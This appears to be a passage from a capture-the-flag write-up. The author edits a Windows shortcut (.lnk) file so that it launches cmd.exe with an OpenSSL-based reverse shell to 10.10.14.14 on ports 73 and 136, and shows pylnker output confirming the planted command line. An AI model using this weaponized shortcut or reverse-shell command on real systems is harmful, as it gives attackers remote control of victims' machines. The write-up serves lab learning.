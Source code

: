 #### Windows

I'll move the lnk file to a Windows VM and right click on it and select
properties. There I'll edit the target:

![](/img/1542293991625.png)

When I bring this back to my Kali host, I'll verify with `pylnker` that
it looks like I want it:



    root@kali# python /opt/pylnker/pylnker.py vs-mod.lnk 
    out:  Lnk File: vs-mod.lnk
    Link Flags: HAS SHELLIDLIST | POINTS TO FILE/DIR | NO DESCRIPTION | HAS RELATIVE PATH STRING | HAS WORKING DIRECTORY | HAS CMD LINE ARGS | NO CUSTOM ICON
    File Attributes: ARCHIVE
    Create Time:   2010-11-20 22:23:55.516901
    Access Time:   2010-11-20 22:23:55.516901
    Modified Time: 2010-11-20 22:23:55.532503
    Target length: 345088
    Icon Index: 0
    ShowWnd: SW_NORMAL
    HotKey: 0
    Target is on local volume
    Volume Type: Fixed (Hard Disk)
    Volume Serial: f06e7663
    Vol Label: 
    Base Path: C:\Windows\System32\cmd.exe
    (App Path:) Remaining Path: 
    Relative Path: ..\..\..\Windows\System32\cmd.exe
    Working Dir: D:\Program Files (x86)\Microsoft Visual Studio\2017\Community\Common7\IDE
    Command Line: /c c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 | cmd.exe | c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136
